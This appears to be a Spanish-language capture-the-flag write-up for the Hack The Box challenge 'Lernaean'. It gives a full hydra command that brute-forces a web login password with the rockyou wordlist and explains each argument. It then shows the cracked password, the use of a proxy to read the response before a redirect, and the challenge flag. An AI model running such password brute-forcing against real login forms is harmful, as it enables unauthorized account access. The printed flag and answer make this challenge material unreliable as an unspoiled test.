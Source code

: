 # Lernaean

*Your target is not very good with computers. Try and guess their password to see if they may be hiding anything!*

Parece que tenemos que guessear o bruteforcear la password del administrador, tan sencillo como ejecutar el siguiente comando
```
hydra -P rockyou.txt IP http-post-form "/:password=^PASS^:Invalid password!" -s PORT -l dummy
```
Para construir el comando tenemos en cuenta lo siguiente
*rockyou.txt* -> La ruta hasta el diccionario que vamos a usar, en este caso el mas común
*IP* -> La IP de nuestra instancia
*http-post-form* -> Podemos ver que la petición que se hace es de tipo POST
*"/:password=^PASS^:Invalid password!"* -> El enpoint que es / , los parametros de la peticion a fuzzear, y el mensaje de fallo
*PORT* -> El puerto de nuestra instancia
*dummy* -> Un usuario, por lo visto no podemos usar hydra sin indicar un username

Esto nos da que la pass es:
```
[32603][http-post-form] host: 167.172.52.58   login: dummy   password: leonardo
```
Si metemos la pass en la web directamente nos dira que somos muy lentos tras hacer un redirect, veamos esto con un proxy como el de burpsuite y si volvemos a hacer la misma request podremos ver la flag en la respuesta
```
<h1 style='color: #fff;'>HTB{l1k3_4_b0s5_s0n}</h1><script type="text/javascript">
                   window.location = "noooooooope.html"
```
Flag: **HTB{l1k3_4_b0s5_s0n}**
